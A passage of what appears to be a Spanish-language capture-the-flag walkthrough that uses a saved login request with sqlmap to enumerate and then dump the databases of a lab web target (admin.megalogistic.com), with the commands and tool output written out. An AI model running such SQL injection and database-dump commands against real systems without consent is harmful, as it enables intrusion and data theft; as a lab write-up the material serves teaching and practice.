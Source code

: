 ```html
Connection: close

username=admin&password=admin
```

Ahora, usa este archivo con **SQLMAP** para ver si podemos obtener información de las bases de datos de la página web:
```bash
sqlmap -r request.txt --dbs --force-ssl --batch
       __H__                                                                                                                           
 ___ ___[)]_____ ___ ___  {1.7.2#stable}                                                                                               
|_ -| . [']     | .'| . |                                                                                                              
|___|_  [)]_|_|_|__,|  _|                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                           
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:56:36 /2023-05-19/

[20:56:36] [INFO] parsing HTTP request from 'request.txt'
[20:56:36] [INFO] testing connection to the target URL
[20:56:37] [INFO] checking if the target is protected by some kind of WAF/IPS
...
...
...
[20:58:13] [INFO] fetching database (schema) names
[20:58:14] [INFO] retrieved: 'public'
[20:58:15] [INFO] retrieved: 'pg_catalog'
[20:58:15] [INFO] retrieved: 'information_schema'
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

[20:59:00] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.megalogistic.com'

[*] ending @ 20:59:00 /2023-05-19/
```

Hay 3 bases de datos, para que no pierdas tiempo, vamos a ver la base de datos **public** y verás algo interesante en su contenido:
```bash
sqlmap -r request.txt --dbs --force-ssl --batch -D public --dump-all
       __H__                                                                                                                           
 ___ ___[.]_____ ___ ___  {1.7.2#stable}                                                                                               
|_ -| . ["]     | .'| . |                                                                                                              
|___|_  [)]_|_|_|__,|  _|                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                           
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```